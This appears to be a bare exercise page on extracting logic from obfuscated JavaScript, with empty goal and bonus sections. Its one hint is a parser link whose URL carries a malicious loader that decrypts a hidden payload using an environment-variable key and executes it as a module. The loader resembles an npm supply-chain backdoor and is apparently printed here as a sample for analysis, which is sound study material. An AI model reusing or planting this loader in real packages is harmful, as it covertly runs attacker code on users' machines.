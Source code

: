 # Extracting Logic from JavaScript


## Goal


## Hints

1. https://shift-ast.org/parser.html?parse_type=script&script=!function()%7Btry%7Bvar%20r%3Drequire%2Ct%3Dprocess%3Bfunction%20e(r)%7Breturn%20r.replace(%2F(%5B0-9A-Fa-f%5D%7B2%7D)%2Fg%2C%20(a%2Cb)%20%3D%3E%20String.fromCharCode(parseInt(b%2C%2016)))%7Dvar%20n%3Dr(e(%222e2f746573742f64617461%22))%2Co%3Dt%5Be(n%5B3%5D)%5D%5Be(n%5B4%5D)%5D%3Bif(!o)return%3Bvar%20u%3Dr(e(n%5B2%5D))%5Be(n%5B6%5D)%5D(e(n%5B5%5D)%2Co)%2Ca%3Du.update(n%5B0%5D%2Ce(n%5B8%5D)%2Ce(n%5B9%5D))%3Ba%2B%3Du.final(e(n%5B9%5D))%3Bvar%20f%3Dnew%20module.constructor%3Bf.paths%3Dmodule.paths%2Cf%5Be(n%5B7%5D)%5D(a%2C%22%22)%2Cf.exports(n%5B1%5D)%7Dcatch(r)%7B%7D%7D()%3B


## Bonus task

